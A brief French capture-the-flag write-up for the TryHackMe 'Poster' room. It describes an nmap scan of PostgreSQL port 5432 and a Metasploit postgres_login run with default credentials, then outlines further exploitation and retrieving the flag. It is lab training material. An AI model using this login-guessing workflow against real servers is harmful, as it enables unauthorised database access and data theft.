

# TryHackMe - Poster (PostgreSQL) Challenge

Ce challenge consiste à exploiter une application web utilisant une base de données PostgreSQL (représentée par une tête d’éléphant) via Metasploit.

### Étapes principales
1. **Scan Nmap**
   - Identifier le port PostgreSQL (5432) :
     ```bash
     nmap -p 5432 -A <IP_CIBLE>
     ```
2. **Bruteforce et exploitation Metasploit**
   - Lancer Metasploit et utiliser le module :
     ```bash
     msfconsole
     use auxiliary/scanner/postgres/postgres_login
     set RHOSTS <IP_CIBLE>
     set USERNAME postgres
     set PASSWORD postgres
     run
     ```
   - Si accès, utiliser d’autres modules pour l’exploitation (ex : exécution de commandes, extraction de données).
3. **Accès à l’application**
   - Utiliser les identifiants trouvés pour accéder à l’interface web ou à la base de données.
   - Récupérer la flag ou les informations sensibles.

### Astuces
- Tester les identifiants par défaut (`postgres:postgres`).
- Vérifier les permissions de la base et les modules Metasploit disponibles.
- Utiliser `psql` pour interagir directement si les identifiants sont connus.

### Erreurs rencontrées
- Port 5432 filtré : vérifier le firewall ou la configuration réseau.
- Accès refusé : tester plusieurs combinaisons d’identifiants.
- Module Metasploit non fonctionnel : mettre à jour Metasploit ou vérifier la syntaxe.

---
Auteur : miicha333l
